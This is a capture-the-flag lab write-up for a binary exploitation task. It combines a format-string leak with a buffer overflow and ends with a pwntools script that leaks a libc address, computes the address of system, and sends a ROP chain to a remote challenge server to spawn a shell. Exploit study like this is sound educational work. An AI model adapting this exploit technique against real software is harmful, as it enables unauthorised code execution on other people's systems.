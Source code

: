 ```yaml
---
layout: post
title:  UNIBUC_RE_lab_6_task_3
image: /assets/img/UNIBUC_RE.jpg
date:   2022-09-01 16:39:01
tags:
- pwn
description: ROP challenge with format string attack to leak an address from the stack
categories:
- UNIBUC RE
---
```


ROP challenge with format string attack to leak an address from the stack

The second printf is the vulnerable one
![](/assets/img/2022-09-02-13-10-19.png)
Also like in all the previous tasks we have a buffer overflow vulnerability.

We only need to leak an address on the stack and then use it to compute an offset to system and kill it.
The same offset as previous examples:
![](/assets/img/2022-09-02-13-12-57.png)

Finding leaks:
![](/assets/img/2022-09-02-13-37-29.png)

Confirming good leak:
![](/assets/img/2022-09-02-13-37-51.png)

Now we only need to compute the rop chain and we're good.

Offset finding (for getting the address):
```
a='0x7ffe3accb1a0-0x7f96b6537780-0x7f96b62686e0-0x7f96b675c700-0xd-0x70252d70252d7025-0x252d70252d70252d-0x2d70252d70252d70-0x70252d70252d7025-0x252d70252d70252d-0x2d70252d70252d70-0x70252d70252d7025-0x252d70252d70252d-0x2d70252d70252d70-0x70252d70252d7025-0x252d70252d70252d-0x2d70252d70252d70-0x7878787878787878-0x4011b8-(nil)-(nil)-0x7ffe3accd8e0-0x401281-0x401290-0x401070-(nil)-0x7f96b61e1690-0x401290-0x7f96b6192830-0x7ffe3accd9c8-0x7ffe3accd9c8-0x1b62fda28-xxxxxxxx\xb8\x11'
a.split('-').index('0x7f96b61e1690')
```

Offset finding (for getting the system offset):
![](/assets/img/2022-09-02-13-46-51.png)
`hex(0x7f96b61e1690-0x7f96b61b7390)`
0x2a300


Find rops using `ROPgadget --binary task03`



Remote:
![](/assets/img/2022-09-02-14-02-35.png)

Script:
```
from pwn import *

from ctypes import *
e = ELF('./task03')
pop_rdi=0x04012eb
bin_sh=0x40302a

io=remote('45.76.91.112',10063)

#io = process("./task03",env={"LD_PRELOAD" : "./libc.so"})

io.recvuntil("name")
#gdb.attach(io,'break *0x401225  ')
io.sendline(32*b'%p-'+40*b'x'+p64(e.symbols['main2']))
io.recvuntil(b'there, ')
temp_recv=io.recvline()
puts_addr=int(temp_recv.split(b'-')[26],16)
print(hex(puts_addr))
system_address=puts_addr-0x2a300
print('puts end ----')
io.sendline(128*b'a'+8*b'x'+p64(pop_rdi)+p64(bin_sh)+p64(system_address))



io.interactive()

```
